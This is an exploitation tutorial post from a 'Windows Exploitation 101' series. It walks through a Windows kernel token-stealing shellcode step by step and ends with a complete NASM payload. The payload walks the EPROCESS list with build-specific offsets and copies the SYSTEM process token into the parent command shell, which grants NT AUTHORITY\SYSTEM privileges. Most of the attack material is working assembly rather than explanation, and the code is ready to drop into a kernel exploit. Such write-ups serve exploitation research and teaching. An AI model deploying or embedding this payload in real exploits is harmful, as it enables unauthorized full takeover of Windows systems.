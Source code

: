 ```yaml
---
title: "Windows Kernel Shellcode : TokenStealer"
author: "Oussama Amri"
tags: ["windows", "exploit", "shellcode", "kernel", "token"]
series: "Windows Exploitation 101"
date: 2020-02-03T16:25:30+01:00
draft: false
comments: true
---
```


A typical Reverse/Bind shellcode will not work when it comes to Windows Kernel Exploitation, most of the time people often use (Nulling out ACLs, Enabling privileges or Replacing process token).

<!--more-->
### TL;DR
In this post i'd like to focus on the **"Replacing process token"** Shellcode. So the idea here is to find a privileged process and copy his token to an unprivileged process, normally will be our parent process (remember that an exploit (**exploit.exe**) are executed by a command line (**cmd.exe**) which is the parent process).

to summarize the steps :

- Find the EPROCESS address of the current process.
- Find the EPROCESS address of the parent process.
- Find the EPROCESS address of the SYSTEM process.
- Copy the token of SYSTEM process to parent process.
- We own the NT AUTHORITY/SYSTEM.

To try this please make sure that you in a context where you have arbitrary kernel mode code execution and you can run assembly code. 

> Please note that you need to adopt the offsets based on the windows build number you're using it ! Check https://www.vergiliusproject.com/ for more info.

#### Step 1

In our shellcode we need to start by locating the `_KTHREAD* CurrentThread` structure of the current process, let's see step by step how to find it !

The `GS[0]` segment point at the [_KPCR](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPCR) (Kernel Processor Control Region) structure which contains information about the processor.

![_KPCR Structure](/img/windows-kernel-shellcode-tokenstealer/KPCR.PNG)

In the last field of `KPCR`, exactly in `GS[0x180]` segment we can find the [_KPRCB](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPRCB) (Kernel Processor Control Region Block) structure which contains information about the current Thread.

![_KPRCB Structure](/img/windows-kernel-shellcode-tokenstealer/KPRCB.PNG)

As you can see the offset `0x08` of `KPRCB` point at a [_KTHREAD* CurrentThread](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KTHREAD) structure of the CurrentThread, which is at `GS[0x188]`. So first instruction in assembly will be : 

```plaintext
mov r9, qword [gs:0x188]  ; Pointing at _KTHREAD structure
```
#### Step 2 

![_KPRCB Structure](/img/windows-kernel-shellcode-tokenstealer/KTHREAD.PNG)

What we care more about in the `_KTHREAD` structure is the offset `0x220` where we can find the [_KPROCESS* Process](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPROCESS) structure. 

> The _KPROCESS structure is first field in the [_EPROCESS](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_EPROCESS) structure. So the address of _KPROCESS is the same as the address of _EPROCESS.

```plaintext
mov r9, qword [r9 + 0x220]  ; Pointing at _KPROCESS/_EPROCESS structure
```

#### Step 3

![_EPROCESS Structure](/img/windows-kernel-shellcode-tokenstealer/EPROCESS.PNG)

As we can see the offset `0x3e8` from the `_EPROCESS` point at the `InheritedFromUniqueProcessId` which is the **parent PID** (cmd.exe in our case).

```plaintext
mov r8, qword [r9 + 0x3e8]  ; Saving the Parent PID in r8
mov rax, r9                 ; Saving the _KPROCESS/_EPROCESS address
```

### To summarize

![EPROCESS Memory Map](/img/windows-kernel-shellcode-tokenstealer/EPROCESS-MAP.png)

#### Step 4

Now we have the parent PID, it's time to look for the `_EPROCESS` structure associated to it !

![PID](/img/windows-kernel-shellcode-tokenstealer/PID.PNG)

The offset `0x2f0` point at the `_LIST_ENTRY ActiveProcessLinks` structure, which is a linked-list points at the beginning of `_EPROCESS` structure for each **Active Process**. 

So we need loop over them and each time we compare the PID value with the `VOID* UniqueProcessId` (offset `0x2e8`), until we find the right `_EPROCESS` of the parent PID.

```plaintext
loop1:
mov rax, qword [rax + 0x2f0]  ; Next ActiveProcessLinks Entry
sub rax, 0x2f0                ; Point in the beginning of _EPROCESS structure
cmp qword [rax + 0x2e8], r8   ; Compare the saved Parent PID with the UniqueProcessId
jne loop1
```
#### Step 5

Once we found the right `_EPROCESS` structure, we need to save the address that point at the `_EX_FAST_REF Token` (offset `0x360`), which is the token that need to be replaced.

```plaintext
mov rcx, rax    ; Copy the _EPROCESS address to RCX
add rcx, 0x360  ; Pointing RCX at Token
```
#### Step 6

We need to do the same thing with a **privileged process**. Most of the time we use the `system` process (PID of `4`).

```plaintext
loop2:
mov rax, qword [rax + 0x2f0]  ; Next ActiveProcessLinks Entry
sub rax, 0x2f0                ; Pointing in the beginning of _EPROCESS
cmp qword [rax + 0x2e8], 0x4  ; Compare the PID (4) with the UniqueProcessId
jne loop2
```

#### Step 7

After we find the `_EPROCESS` structure of the privileged process, it's time to replace the token of the unprivileged process (Parent PID **cmd.exe**) with the token of the privileged process **system**.

```plaintext
mov rdx, rax            ; Pointing RDX at the beginning of _EPROCESS of system
add rdx, 0x360          ; Pointing RDX at the Token of system
mov rdx, qword [rdx]    ; Copying the Token
mov qword [rcx], rdx    ; Replace the cmd.exe Token with the system Token
ret
```
### Exploit

![NT AUTHORITY/SYSTEM](/img/windows-kernel-shellcode-tokenstealer/SYSTEM.PNG)

### Final Code

```nasm
[bits 64]
global _start

section .text

_start:
mov r9, qword [gs:0x188]     ; Pointing at _KTHREAD structure
mov r9, qword [r9 + 0x220]   ; Pointing at _KPROCESS/_EPROCESS structure
mov r8, qword [r9 + 0x3e8]   ; Saving the Parent PID in r8 / you can change it directly with a PID value from your choice !
mov rax, r9                  ; Saving the _KPROCESS/_EPROCESS address
loop1:
mov rax, qword [rax + 0x2f0] ; Next ActiveProcessLinks Entry
sub rax, 0x2f0               ; Point in the beginning of _EPROCESS structure
cmp qword [rax + 0x2e8], r8  ; Compare the saved Parent PID with the UniqueProcessId
jne loop1
mov rcx, rax                 ; Copy the _EPROCESS address to RCX
add rcx, 0x360               ; Pointing RCX at Token
mov rax, r9
loop2:
mov rax, qword [rax + 0x2f0] ; Next ActiveProcessLinks Entry
sub rax, 0x2f0               ; Pointing in the beginning of _EPROCESS
cmp qword [rax + 0x2e8], 0x4 ; Compare the PID (4) with the UniqueProcessId
jne loop2
mov rdx, rax                 ; Pointing RDX at the beginning of _EPROCESS of system
add rdx, 0x360               ; Pointing RDX at the Token of system
mov rdx, qword [rdx]         ; Copying the Token
mov qword [rcx], rdx         ; Replace the cmd.exe Token with the system Token
ret
```

#### Sources:
* [Improsec](https://improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-1)
* [Cesar Cerrudo in 2012](https://media.blackhat.com/bh-us-12/Briefings/Cerrudo/BH_US_12_Cerrudo_Windows_Kernel_WP.pdf)
* [InfoSecInstitute](https://resources.infosecinstitute.com/kernel-exploitation-part-2/)